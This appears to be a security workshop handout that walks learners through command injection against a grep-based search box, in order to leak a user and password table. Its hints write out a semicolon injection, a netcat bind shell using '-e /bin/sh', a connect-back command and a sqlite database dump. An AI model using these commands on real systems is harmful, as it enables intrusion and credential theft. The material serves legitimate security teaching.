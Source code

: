 *Warning: this handout is about to start getting more hands-off, and you're going to have to start figuring out more yourself. If you have trouble, call us over!*

We now have access to an interface where we can search things up using two different methods.

**Option 1: Command Injection**

The interface on the left allows us to enter a string and then it'll search the file `data/logs.txt` for that string.

The format of the command looks like:

```sh
grep $YOUR_INPUT data/logs.txt
```

So if you look up `2022-10-11`, it'll run

```sh
grep 2022-10-11 data/logs.txt
```

Can you think of any way to get this to execute our commands?

Hint 1: you can execute multiple commands in one line with the `;`. For example:

```sh
grep 2022-10-11 data/logs.txt; whoami
```

Hint 2: if you enter something and nothing happens, remember that `grep` always requires some kind of file to look through, even if that file doesn't exist! The syntax is always `grep string file`.

Hint 3: you can comment something out with `#`, and everything to the right of it will be discarded.

Hint 4: you can make a computer wait for a connection and serve a shell over said connection by using the following command *on the target computer.*

```sh
nc.traditional -l -p <port> -e /bin/sh;
```

This is where `<port>` is some number from 1 to 65536. The first 1024 ports or so are reserved, but basically any user can use higher ports.

Then, you can connect to that shell with the following command *on the attacking computer.*

```sh
nc 192.168.2.1 <port>
```

Hint 5: the command for dumping a database is the following.

```sh
sqlite3 <database> ".dump"
```

**Options 2: SQL Injection**

Check out: https://portswigger.net/web-security/sql-injection/examining-the-database

***Task: use one of the two methods above to leak the database full of user accounts and passwords. The table name is `user`.***
